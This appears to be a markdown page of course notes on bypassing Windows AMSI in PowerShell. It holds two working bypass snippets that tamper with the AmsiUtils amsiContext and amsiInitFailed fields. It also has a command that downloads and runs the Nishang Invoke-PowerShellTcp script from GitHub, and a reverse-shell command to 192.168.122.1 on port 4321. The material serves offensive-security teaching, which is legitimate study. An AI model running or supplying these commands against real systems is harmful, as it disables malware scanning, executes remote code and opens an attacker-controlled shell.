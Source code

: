 ## Bypass #1

The first bypass consists in modifying one field of the `System.Management.Automation.AmsiUtils` class, is an internal .NET class within PowerShell that interacts with the Antimalware Scan Interface (AMSI). The field we're interested specifically in is the `amsiContext` field.

To bypass AMSI, execute the following code within the powershell process
  
```powershell
$fields=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static')
$amsiContext=$fields | Where-Object { $_ -like "*Context" }
[IntPtr]$amsiContextPointer=$amsiContext.GetValue($null)

[Int32[]]$emptyBuffer = @(0);
[System.Runtime.InteropServices.Marshal]::Copy($emptyBuffer, 0, $amsiContextPointer, 1)
```

Now, execute it again
```powershell
iex (iwr "https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1" -UseBasicParsing).Content
```

Notice that now, no error appears. You can then start a reverse shell.
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

## Bypass #2

The second method consist in setting the `amsiInitFailed` field to `true` within the `AmsiUtils` class.

```powershell
$amsiInitFailedField=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetFields('NonPublic,Static') | Where-Object { $_.Name -like "amsiInitFailed" }
$amsiInitFailedField.SetValue($null, $true)
```

---
## References

AMSI & Bypass: Review of Known AMSI Bypass Techniques and Introducing a New One: https://www.youtube.com/watch?v=8y8saWvzeLw

This repo contains some Amsi Bypass methods i found on different Blog Posts: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Forcing-an-error

One-liner to bypass the AMSI in a Powershell: https://arttoolkit.github.io/wadcoms/AMSI-Bypass-amsiContext/

All methods to bypass AMSI (2022): https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-23-windows-privesc-amsi-bypass/content/notes.txt